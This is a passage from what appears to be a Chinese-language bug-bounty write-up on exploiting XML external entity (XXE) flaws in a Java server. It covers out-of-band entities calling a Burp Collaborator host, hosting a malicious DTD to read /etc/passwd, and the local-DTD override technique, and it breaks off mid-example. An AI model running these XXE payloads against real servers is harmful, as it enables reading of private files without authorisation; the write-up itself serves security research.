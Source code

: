 # 0x04 XXE OOB

我想跳过所有的这些麻烦，并使用OOB技术来通过FTP检索文件，因为app服务器是JAVA技术的并为此使用了burp collaborator，而且还使用了参数实体而不是常规实体。

```plain
<!DOCTYPE a[
<!ENTITY % x SYSTEM " http://something.burpcollaborator.net"> %x;
]>
<root>
<id>1</id>
<name>test</name>
</root>
```

并通过测试后，知道此处不允许HTTP带外（我试了很多次，但是没有成功）

# 0x05 通过子域进行OOB XXE

一周后，我在一个子域测试中发现了一个RCE，出于好奇，我在其中托管了一个邪恶的DTD文件，以通过此XXE在那读取/ etc / passwd，并返回了服务器错误消息和像这样在Response本身中显示文件内容：[https](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/) : [//blog.netspi.com/forcing-xxe-reflection-server-error-messages/](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/)  
：D  
因为可能是该子域被列入白名单，能够建立带外的连接。  
该公司增加了少量奖金，希望我在不利用已经报告的RCE的情况下利用此XXE获得全部奖励。

# 0x06 使用DTD利用XXE（不通过OOB）

在很长一段时间，我无法利用，但随后[https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html](https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html)  
来了，给了希望。他列出了系统中可能已经存在的一些常见DTD，以及如何通过简单地覆盖/替换DTD中已存在的实体来将它们用于XXE以便将XXE用于文件读取。但是，该博客上列出的那些DTD都不存在于我的目标服务器上。

# 0x07 本地DTD技术的简介

如果发现任何DTD文件已经存在于目标服务器文件系统的某个位置，该文件由参数实体（例如`<!ENTITY % injectable "something">`）组成，并且在该DTD本身的某个位置被饮用（例如`<!ENTITY % random (%injectable;)>`）。然后，我们基本上可以覆盖该实体的内容，而只需在OOB 中的外部evil.dtd中编写将要执行的操作。例如如果服务器上存在legit.dtd

**/usr/share/xyz/legit.dtd:**

```plain
..
<!ENTITY % injectable "something">
..
<!ENTITY % random (%injectable;)>
..
..
```

如果您在XXE中添加以下内容
